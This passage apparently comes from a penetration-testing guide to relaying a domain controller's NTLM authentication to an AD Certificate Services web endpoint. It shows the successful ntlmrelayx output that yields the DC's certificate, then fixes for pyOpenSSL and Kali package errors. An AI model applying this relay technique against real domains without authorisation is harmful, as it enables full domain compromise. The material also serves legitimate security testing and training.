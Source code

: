 #### Expected Relay Results
```bash
# Successful NTLM relay output:
[*] SMBD-Thread-5: Received connection from DC_IP, attacking target http://CA_SERVER
[*] Authenticating against http://CA_SERVER as DOMAIN/DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 17
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

## 🔧 OpenSSL Troubleshooting (Critical)

### Common PKCS12 Generation Error
```bash
# Frequent error in newer Kali versions:
AttributeError: module 'OpenSSL.crypto' has no attribute 'PKCS12'

# Complete error context:
[*] GOT CERTIFICATE! ID 17
Exception in thread Thread-6:
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattacks/adcsattack.py", line 113, in generate_pfx
    p12 = crypto.PKCS12()
AttributeError: module 'OpenSSL.crypto' has no attribute 'PKCS12'
```

### Package Conflict Issues
```bash
# Common Kali package conflicts:
dpkg: error processing archive certipy-ad_5.0.2-0kali1_all.deb (--unpack):
trying to overwrite '/usr/lib/python3/dist-packages/certipy/__init__.py', which is also in package python3-certipy

# Externally-managed-environment errors:
error: externally-managed-environment
× This environment is externally managed
```

### Fix Method 1: Downgrade pyOpenSSL
```bash
# Install compatible OpenSSL version
sudo pip3 install pyOpenSSL==22.1.0 --break-system-packages --force-reinstall

# Verify fix
python3 -c "import OpenSSL.crypto; print('PKCS12' in dir(OpenSSL.crypto))"
# Should return: True
```
